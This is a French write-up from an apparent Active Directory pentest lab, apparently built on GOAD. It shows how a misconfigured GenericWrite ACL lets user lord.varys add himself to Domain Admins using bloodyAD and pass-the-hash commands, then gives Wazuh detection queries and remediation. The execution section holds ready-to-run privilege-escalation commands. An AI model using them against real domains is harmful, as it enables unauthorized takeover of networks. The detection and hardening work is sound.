





# ⚔️ Attaque 07 — Abus d'ACL (GenericWrite sur Domain Admins)

| | |
|---|---|
| **Catégorie** | Privilege Escalation |
| **MITRE ATT&CK** | [T1222.001](https://attack.mitre.org/techniques/T1222/001/) · [T1098](https://attack.mitre.org/techniques/T1098/) (Account Manipulation) |
| **Fiche théorique** | [`../../docs/04-privilege-escalation/`](../../docs/) |
| **Cible** | `sevenkingdoms.local` — groupe **Domain Admins** (kingslanding · 192.168.56.10) |
| **Compte attaquant** | `lord.varys` (**simple utilisateur** avec une ACL mal configurée) |
| **Outil** | `bloodyAD` (énumération + exploitation) |
| **Statut détection Wazuh** | 🟢 **Détecté** (Event 4728 — ajout à Domain Admins) |

---

## 1. 🧠 Description
Chaque objet AD porte une **ACL** : la liste de *« qui a le droit de faire quoi »* sur lui. Par mauvaise délégation, un **utilisateur lambda** peut hériter d'un droit puissant sur un objet sensible :

| Droit (ACE) | Ce qu'il permet |
|---|---|
| **GenericAll** | contrôle total de l'objet |
| **GenericWrite / WriteProperty** | modifier ses attributs (dont `member` d'un groupe) |
| **WriteDacl** | modifier les permissions → s'octroyer GenericAll |
| **ForceChangePassword** | réinitialiser le mot de passe de la cible |

**La faille ici :** `lord.varys` possède un droit **WRITE sur le groupe `Domain Admins`**. Or écrire l'attribut `member` d'un groupe = **y ajouter n'importe qui**. Il lui suffit donc de **s'ajouter lui-même** → il devient Domain Admin.

## 2. 🎯 Prérequis
- Un compte de domaine (ici `lord.varys`) disposant d'un droit d'écriture **abusable** sur un objet privilégié.
- La découverte de ce droit (via BloodHound / `bloodyAD get writable`).

## 3. 💻 Exécution

### a) Découvrir le droit abusable
```bash
bloodyAD --host 192.168.56.10 -d sevenkingdoms.local -u lord.varys -p :52ff2a79823d81d6a3f4f8261d7acc59 get writable
```
En testant les comptes du domaine (via leurs hashs dumpés), on découvre que **`lord.varys`** a `WRITE` sur **`CN=Domain Admins`**, **`CN=Enterprise Admins`** et **`CN=AdminSDHolder`** (jackpot).



### b) Exploiter : s'ajouter à Domain Admins
```bash
bloodyAD --host 192.168.56.10 -d sevenkingdoms.local -u lord.varys -p :52ff2a79823d81d6a3f4f8261d7acc59 \
  add groupMember "Domain Admins" lord.varys
```
Puis vérifier l'appartenance :
```bash
bloodyAD --host 192.168.56.10 -d sevenkingdoms.local -u lord.varys -p :52ff2a79823d81d6a3f4f8261d7acc59 \
  get membership lord.varys
```



> 💡 Auth par **hash** (`-p :52ff2a...`, Pass-the-Hash) — le hash de `lord.varys` provient du dump du domaine (attaque 12).

## 4. 📤 Résultat
`lord.varys` (utilisateur lambda) est désormais membre de **Domain Admins** et **Administrators** → **Domain Admin**, **sans exploit ni mot de passe admin**, juste en éditant un attribut. Contrôle total du domaine.

## 5. 🛡️ Détection dans Wazuh — 🟢 détecté

| Recherche (DQL) | Résultat | Lecture |
|---|---|---|
| `data.win.system.eventID:4728` | **1 hit** ✅ | **l'ajout à Domain Admins est capturé** |
| `data.win.eventdata.memberName:*varys*` | **1 hit** ✅ | confirme le membre ajouté |
| `data.win.system.eventID:5136` | 0 hit | (modif d'objet non auditée, mais le 4728 suffit) |

**Event Windows concerné : `4728`** — *« un membre a été ajouté à un groupe de sécurité global »*. Détail capturé : `targetUserName: Domain Admins`, `memberSid` et `subjectUserSid` = `...-1121` (lord.varys s'est ajouté lui-même).



Recherche par le membre ajouté (`memberName:*varys*`) — même événement, confirmant l'ajout :



À l'inverse, l'audit de modification d'objet (Event 5136) n'est **pas** activé — mais le 4728 suffit à détecter l'attaque :



## 6. 🎓 Analyse & leçon
> Contraste clé : **la vulnérabilité est invisible, mais l'exploitation est détectée.** Le SIEM ne peut pas voir l'ACL dangereuse (le droit WRITE de lord.varys) — seul un audit d'ACL (BloodHound) la révèle. En revanche, **l'action** (ajout à `Domain Admins`) génère l'**Event 4728**, un signal à haute valeur qui **est** capturé.

👉 C'est le **2ᵉ cas de détection réussie** (avec le [Password Spraying](05-password-spraying.md)). La leçon pour la **Phase 5** : écrire une **règle critique** qui alerte sur **tout** ajout aux groupes `Domain Admins` / `Enterprise Admins` — un événement rare et toujours suspect.

## 7. 🔧 Remédiation
- **Auditer et corriger les ACL** : aucun utilisateur standard ne doit avoir `WRITE`/`GenericAll` sur les groupes admin (revue régulière via BloodHound).
- **Alerter en priorité** sur l'Event **4728/4732** vers les groupes privilégiés.
- Protéger les groupes sensibles avec **AdminSDHolder** correctement configuré.
- *(Nettoyage lab :* `bloodyAD ... remove groupMember "Domain Admins" lord.varys`*)*

---

⬅️ Retour à l'[index des attaques](../03-attaques.md)
